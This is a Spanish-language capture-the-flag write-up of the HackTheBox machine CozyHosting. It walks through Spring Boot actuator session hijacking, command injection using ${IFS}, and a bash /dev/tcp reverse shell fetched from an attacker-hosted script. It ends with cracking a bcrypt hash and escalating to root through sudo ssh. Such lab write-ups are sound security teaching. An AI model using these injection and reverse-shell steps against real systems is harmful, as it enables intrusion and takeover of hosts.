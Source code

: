 ```yaml
---
title: "CozyHosting Write-Up - HackTheBox"
description: "CozyHosting Write-Up - HackTheBox"
pubDatetime: 2023-09-04
tags: ["fácil", "htb", "spring", "cracking", "postgresql"]
---
```


# Reconocimiento

Comenzamos con un escaneo básico de `nmap`.

```bash
❯ nmap 10.10.11.230
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-03 09:31 CEST
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 52.17 seconds
```

Tenemos SSH y un servicio web.

## Reconocimiento web

![](@assets/HackTheBox/CozyHosting/web.png)

Tras un rato fuzzeando con `gobuster` no encuentro nada interesante más que un panel de login para el que no tenemos credenciales. Hasta que usando `dirsearch` doy con algo de interés.

```bash
❯ dirsearch -u 'http://cozyhosting.htb'

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11714

Task Completed

200     5KB  http://cozyhosting.htb/actuator/env
200    15B   http://cozyhosting.htb/actuator/health
200   148B   http://cozyhosting.htb/actuator/sessions
200    10KB  http://cozyhosting.htb/actuator/mappings
200   124KB  http://cozyhosting.htb/actuator/beans
401    97B   http://cozyhosting.htb/admin
500    73B   http://cozyhosting.htb/error
```

Una ruta `/actuator` que con una simple búsqueda encuentro que posiblemente nos enfrentemos a un [**Spring Boot**](https://luiscualquiera.medium.com/qu%C3%A9-son-los-actuators-de-spring-boot-55cecb48f746).

> También podíamos intuir que estábamos ante un **Spring Boot** debido al mensaje de error "Whitelabel Error Page", típico de este tipo de framework.

Spring es un conjunto de frameworks para el desarrollo de aplicaciones en Java y una funcionalidad interesante que tienen son los **actuators**.

Los **actuators** exponen información sobre la aplicación Spring en ejecución a través de (entre otros) una API REST y pueden utilizarse para recuperar datos del sistema, o incluso realizar cambios de configuración si se configuran incorrectamente.

Para ver los endpoints disponibles simplemente hay que hacer una petición a `/actuator`.

```bash
❯ curl -s cozyhosting.htb/actuator | jq
{
  "_links": {
    "self": {
      "href": "http://localhost:8080/actuator",
      "templated": false
    },
    "sessions": {
      "href": "http://localhost:8080/actuator/sessions",
      "templated": false
    },
    "beans": {
      "href": "http://localhost:8080/actuator/beans",
      "templated": false
    },
    "health-path": {
      "href": "http://localhost:8080/actuator/health/{*path}",
      "templated": true
    },
    "health": {
      "href": "http://localhost:8080/actuator/health",
      "templated": false
    },
    "env": {
      "href": "http://localhost:8080/actuator/env",
      "templated": false
    },
    "env-toMatch": {
      "href": "http://localhost:8080/actuator/env/{toMatch}",
      "templated": true
    },
    "mappings": {
      "href": "http://localhost:8080/actuator/mappings",
      "templated": false
    }
  }
}
```

### Cookie hijacking

Me llama la atención el `/actuator/sessions` donde viendo su contenido vemos lo que parecen cookies de sesión. Entre las que vemos una de un supuesto usuario **kanderson**.

```bash
❯ curl -s cozyhosting.htb/actuator/sessions | jq
{
  "9C4CD4D3895BC2FBE63D263C100F3BB7": "kanderson"
}
```

Nos copiamos la cookie, la introducimos en el navegador y podemos acceder al panel en `/admin` reutilizando la cookie de sesión.

![](@assets/HackTheBox/CozyHosting/admin.png)

### Inyección de comandos e intrusión

En esta página hay una funcionalidad para conectarse por SSH remotamente proporcionando un host y un usuario.

![](@assets/HackTheBox/CozyHosting/ssh.png)

Vemos que al mandar una petición con el usuario vacío nos devuelve el siguiente error:

![](@assets/HackTheBox/CozyHosting/ssh_error.png)

Lo que me hacer pensar en una inyección de comandos.

![](@assets/HackTheBox/CozyHosting/ci.png)

Parece que lo está ejecutando así que intento una reverse shell.

> Como la aplicación no deja escribir espacios, hay que hacer uso de `${IFS}`, una variable de entorno de bash que básicamente actua como separador.

Para conseguir la reverse shell lo que to hice (hay muchas formas) fue hostear un archivo `shell.sh` en local.

```bash
❯ echo "#!/bin/bash" > shell.sh
❯ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.54/443 0>&1'" >> shell.sh
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y como tengo conectividad con la máquina, ponerme en escucha e inyectar el siguiente comando.

![](@assets/HackTheBox/CozyHosting/revshell.png)

Tenemos shell como el usuario app.

![](@assets/HackTheBox/CozyHosting/app.png)

# Movimiento lateral

Vemos en el directorio `/app` un archivo `cloudhosting-0.0.1.jar`, nos lo traemos a un directorio con permisos de escritura y lo descomprimimos para ver los contenidos con detalle.

![](@assets/HackTheBox/CozyHosting/jar.png)

Encuentro un archivo `BOOT-INF/classes/application.properties` con credenciales para una base de datos `PostgreSQL`.

![](@assets/HackTheBox/CozyHosting/psql.png)

![](@assets/HackTheBox/CozyHosting/connect.png)

Me conecto a la base de datos **cozyhosting** y listamos la tabla **users**.

![](@assets/HackTheBox/CozyHosting/database.png)

Hay hashes para los usuarios **admin** y **kanderson**.

Crackeandolos con john, consigo crackear uno.

```bash
❯ john -w:/usr/share/seclists/rockyou.txt hashes
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
```

Pero en el sistema no existe ningún usuario **admin** o **kanderson**. Por lo que pruebo a reutilizar la contraseña para el usuario **josh**.

Tenemos shell como el usuario **josh** y la primera flag.

![](@assets/HackTheBox/CozyHosting/user.png)

# Escalada de privilegios

Como este usuario podemos ejecutar `/usr/bin/ssh` como root.

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

En [gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo) hay un simple payload para obtener una shell como root. Lo ejecutamos y tenemos shell como root.

![](@assets/HackTheBox/CozyHosting/root.png)

# Referencias

- [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)
- [https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo)
- [https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces)
